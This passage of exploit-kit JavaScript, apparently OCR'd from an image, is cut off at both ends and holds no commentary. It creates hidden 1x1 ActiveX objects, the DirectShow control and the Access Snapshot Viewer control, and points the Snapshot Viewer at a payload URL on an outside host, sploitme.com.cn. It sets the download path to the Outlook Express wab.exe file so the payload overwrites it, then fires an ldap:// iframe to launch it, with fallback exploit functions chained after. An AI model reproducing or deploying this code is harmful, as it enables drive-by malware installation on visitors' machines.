 ```
		var obj = document.createElement('object');
		document.body.appendChild(obj);
		obj.width = '1';
		obj.height = '1';
		obj.data = './directshow.php';
		obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		setTimeout('if (CheckIP()){ Complete(); } else { snapshot(); }', 1000);
	} catch (e) {
		snapshot();
	}
}
function snapshot() {
	var x;
	var obj;
	var mycars = new Array();
	mycars[0] = 'c:/Program Files/Outlook Express/wab.exe';
	mycars[1] = 'd:/Program Files/Outlook Express/wab.exe';
	mycars[2] = 'e:/Program Files/Outlook Express/wab.exe';
	try {
		var obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
	} catch (e) {
		try {
			var obj = document.createElement('object');
			obj.setAttribute('classid', 'clsid:F0E42D50-368C-11D0-AD81-00A0C90DC8D9');
			obj.setAttribute('id', 'obj');
			obj.setAttribute('width', '1');
			obj.setAttribute('height', '1');
			document.body.appendChild(obj);
		} catch (e) {
		}
	}
	try {
		if (obj = '[object]') {
			for (x in mycars) {
				obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
				var buf = mycars[x];
				obj.Zoom = 0;
				obj.ShowNavigationButtons = false;
				obj.AllowContextMenu = false;
				obj.SnapshotPath = 'http://sploitme.com.cn/fg/load.php?e=6';
				try {
					obj.CompressedPath = buf;
					obj.PrintSnapshot();
					var snpelement = document.createElement('iframe');
					snpelement.setAttribute('id', 'snapiframe');
					snpelement.setAttribute('src', 'about:blank');
					snpelement.setAttribute('width', 1);
					snpelement.setAttribute('height', 1);
					snpelement.setAttribute('style', 'display:none;');
					document.body.appendChild(snpelement);
					setTimeout("document.getElementById('snapiframe').src = 'ldap://';", 3000);
				} catch (e) {
				}
			}
		}
	} catch (e) {
	}
	com();
}
function com() {
	try {
		var obj = document.createElement('object');
		document.body.appendChild(obj);
```